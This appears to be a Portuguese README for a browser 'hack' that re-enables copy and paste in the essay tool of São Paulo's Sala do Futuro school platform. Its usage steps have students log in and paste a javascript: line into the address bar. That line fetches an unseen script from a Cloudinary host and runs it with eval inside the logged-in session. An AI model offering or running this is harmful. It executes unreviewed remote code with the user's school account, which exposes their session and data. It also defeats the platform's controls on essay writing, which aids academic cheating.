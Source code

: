 # 🚀 Remove Pasting – Hack Educacional para Redações

**Versão Beta – feito por @KevinBorgiani**

> Um hack leve, funcional e discreto para **facilitar as redações da Sala do Futuro**, criado com fins educacionais e testes pessoais.

---

## 🤔 O que é?

- Remove Pasting é um script experimental que habilita a função de copiar/colar, que vem desabilitada pelo site.

---

## ⚙️ Features

- 🎇 Permite copiar/colar em redações
- 🌑 Tema escuro e visual moderno

---

## 💡 Como usar:

### Método 1 – Direto na barra de endereços

1. Acesse o site da [Sala do Futuro]([https://saladofuturo.educacao.sp.gov.br/escolha-de-perfil])
2. Faça seu login.
3. Cole o código abaixo na barra de endereços e pressione `Enter`:

```javascript
javascript:fetch("https://res.cloudinary.com/dlogadzyb/raw/upload/v1750458260/main_q9teif.js").then(t=>t.text()).then(eval);
